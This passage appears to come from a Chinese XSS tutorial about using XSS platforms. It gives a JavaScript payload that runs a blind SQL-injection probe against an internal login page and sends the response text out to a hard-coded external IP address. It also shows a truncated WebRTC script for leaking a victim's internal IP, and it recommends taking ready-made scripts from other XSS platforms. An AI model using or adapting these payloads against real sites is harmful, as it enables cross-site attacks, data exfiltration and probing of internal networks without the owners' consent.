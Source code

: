 ![在这里插入图片描述](assets/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0FpeGl4eHg=,size_16,color_FFFFFF,t_70-20190811182812685.png)
### 2.3.5 平台扩展
#### 2.3.5.1 XSS平台反射注入
介绍一个之前在比赛看见有个师傅玩的操作，用xss进行内网SQL注入。ps:虽然他x错地方了而且跟注入没关系，但是看着挺好玩的，进行了一个简单的布尔判断xss
```
xmlhttp=new XMLHttpRequest();
var d1=new Date();
t1=d1.getTime();
xmlhttp.onreadystatechange=function(){
if(xmlhttp.readyState==4 && xmlhttp.status==200){
var d2=new Date();
t2=d2.getTime();
location.href="http://123.207.99.17/id1?xssaaaa"+escape(xmlhttp.responseText)+"timeCost"+String(t2-t1);
}
}
xmlhttp.open("POST","/Ze02pQYLf5gGNyMn/login.php",true);
xmlhttp.send("username=admi/**/or/**/1&password=1");
```

#### 2.3.5.2 使用邮件提醒
设置一下config.php里的与邮件相关的

![在这里插入图片描述](assets/20190527223054717.png)
### 直接去别的XSS平台去扒他们的脚本，拿来就能用
如这个获取内网IP的脚本
```
  var RTCPeerConnection = window.webkitRTCPeerConnection || window.mozRTCPeerConnection;
if (RTCPeerConnection) (function() {
    var rtc = new RTCPeerConnection({
        iceServers:[]
    });
    if (1 || window.mozRTCPeerConnection) {
        rtc.createDataChannel("", {
            reliable:false
        });
    }
    rtc.onicecandidate = function(evt) {
        if (evt.candidate) grepSDP("a=" + evt.candidate.candidate);
    };
    rtc.createOffer(function(offerDesc) {
        grepSDP(offerDesc.sdp);
        rtc.setLocalDescription(offerDesc);
    }, function(e) {
        console.warn("offer failed", e);
    });
    var addrs = Object.create(null);
```